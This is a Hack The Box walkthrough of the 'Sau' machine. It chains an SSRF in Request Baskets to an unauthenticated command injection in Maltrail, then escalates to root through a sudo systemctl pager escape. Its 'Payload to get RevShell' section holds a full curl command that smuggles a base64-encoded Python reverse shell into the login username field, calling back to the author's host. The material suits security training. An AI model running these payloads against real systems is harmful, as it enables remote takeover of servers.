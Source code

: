 ```yaml
---
title: "Hack The Box Machine - Sau"
description: "Walkthrough of the Sau machine from Hack The Box - an easy Linux box involving SSRF exploitation, Maltrail vulnerability, and privilege escalation"
createdAt: 2023-07-29
image: "../assets/sau.png"
tags:
  - hackthebox
  - easy
  - cybersecurity
draft: false
---
```


| Name | Sau|
| :------ |:--- |
| OS | Linux |
| RELEASE DATE | July 8, 2023 |
| DIFFICULTY | <span style="color:green">Easy</span> | 1



## Port Scan
I actually wanted to test Naabu as my scanner of choice to be able to enumerate the host. I just Naabu to scan all of the ports and Naabu has a feature to then pump the ports to nmap. This was my command and output.

```bash
solidshadw@solidManjaro  ~/Downloads   
$ sudo naabu -p - -host 10.10.11.224 -nmap-cli 'nmap -sV -oX nmap-outpu  
t'
  
                 __  
 ___  ___  ___ _/ /  __ __  
/ _ \/ _ \/ _ \/ _ \/ // /  
/_//_/\_,_/\_,_/_.__/\_,_/  
  
               projectdiscovery.io  
  
[INF] Current naabu version 2.1.6 (latest)  
[INF] Running host discovery scan  
[INF] Running SYN scan with CAP_NET_RAW privileges  
[INF] Found 2 ports on host 10.10.11.224 (10.10.11.224)  
10.10.11.224:55555  
10.10.11.224:22  
[INF] Running nmap command: nmap -sV -oX nmap-output -p 22,55555 10.10.  
11.224  
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-29 14:30 MDT  
Nmap scan report for 10.10.11.224  
Host is up (0.069s latency).  
  
PORT      STATE SERVICE VERSION  
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux;  
protocol 2.0)  
55555/tcp open  unknown  
1 service unrecognized despite returning data. If you know the service/  
version, please submit the following fingerprint at https://nmap.org/cg  
i-bin/submit.cgi?new-service :  
SF-Port55555-TCP:V=7.94%I=7%D=7/29%Time=64C576E7%P=x86_64-pc-linux-gnu%  
r(G  
SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/htm  
l;\  
SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Sat,\x2029\x20Jul\  
x20  
SF:2023\x2020:30:31\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\  
"/w  
SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x2  
0Re  
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection  
:\x  
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x  
202  
SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Sat,\x2029\x20Jul\  
x20  
SF:2023\x2020:30:31\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequ  
est  
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/pla  
in;  
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Reque  
st"  
SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20  
tex  
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\  
x20  
SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n  
Con  
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r  
\n\  
SF:r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x204  
00\  
SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r  
\nC  
SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,6  
7,"  
SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x  
20c  
SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%  
r(K  
SF:erberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t  
ext  
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x  
20R  
SF:equest")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\  
r\n  
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Opti  
ons  
SF::\x20nosniff\r\nDate:\x20Sat,\x2029\x20Jul\x202023\x2020:30:58\x20GM  
T\r  
SF:\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20  
nam  
SF:e\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}  
\$\  
SF:n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Ty  
pe:  
SF:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\  
x20  
SF:Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Requ  
est  
SF:\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20  
clo  
SF:se\r\n\r\n400\x20Bad\x20Request");  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Service detection performed. Please report any incorrect results at htt  
ps://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 89.64 seconds
```

Looks like we found 2 ports opened. Port 22 and Port 55555. 

## Port 55555
Looks like this port is running a web interface

![image](../assets/20230729160044.png)

As I inspect the app. Looks like you can create a webhook like in which it collects and inspects the data sent over. 

We can send requests to the basket that I created `http://10.10.11.224:55555/web/gfr64fy`. 

![image1](../assets/20230729160639.png)

On the main page, I saw a version number `Version: 1.2.1`. Which I proceeded to look any potential vulnerabilities and bingo. https://github.com/advisories/GHSA-58g2-vgpg-335q, 
Looks like it is vulnerable to SSRF. As I continue to dig into this vulnerability, seems that it is exploiting the `/api/baskets/{name}`. That means that every time we visit that site, that api path gets called and triggered. 

Exploring that app a bit more, I found that you can forward URLs. 

![image2](../assets/20230729161754.png)

I stumbled upon this [article](https://notes.sjtu.edu.cn/s/MUUhEymt7)  that was explaining the SSRF vulnerability and they used this feature of forward URL to exploit the SSRF to find any other webservers not exposed to internet. They found more resources on the localhost that where to not available on our initial scan. So, I tried on port 80 and boom we got another webserver. 

![iamge3](../assets/20230729162117.png)

![image4](../assets/20230729162133.png)

It looks like it is a Maltrail from the description at the bottom. It also exposes a version `v0.53`. A quick google search, you can find that version is vulnerable to an Unauthenticated RCE(the best kind) https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/.

We will need to add the `/login` at the end because it looks that is where that RCE happens. So, in the end our config will look something like this:

![image5](../assets/20230729162522.png)

## Payload to get RevShell

I started testing the RCE by sending a curl command to my host.

![image6](../assets/20230730211002.png)

Which it was successful! So, we know that it is working. 

![image8](../assets/20230730211042.png)

I tried the basic sh revershell but I couldn't get it to work, not sure why. When digging into this RCE I found this [article](https://medium.com/pentesternepal/owasp-ktm-0x03-ctf-writeup-e467634a9661) in which they craft a python reverse shell and echo it in base64 and decode and execute with bash. This was my final payload:

```bash
$ curl 'http://10.10.11.224:55555/gfr64fy' \         
 --data 'username=;`echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZ  
XNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJF  
QU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjEwIiw4MDg1KSk7b3MuZHVwMihzLmZpbGVubyg  
pLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG  
9ydCBwdHk7IHB0eS5zcGF3bigiYmFzaCIpJw==|base64 -d|bash`'
```

After executing it, it worked!

![image9](../assets/20230729154901.png)

## Privilege Escalation Payload

Looks like we are running as the user "puma". I ran the command `sudo -l` to see if he's able to run any commands as sudo without a password.

![image10](../assets/20230729155419.png)

A quick google search on privilege escalation when running `systemctl status` landed me on this page https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/. 

So, the final payload is divided in two parts. The first is:
```bash 
sudo systemctl status trail.service
```
And then you run:
```bash
!sh
```

And that drops you into a shell. We have made it to root. 

![image11](../assets/20230729155249.png)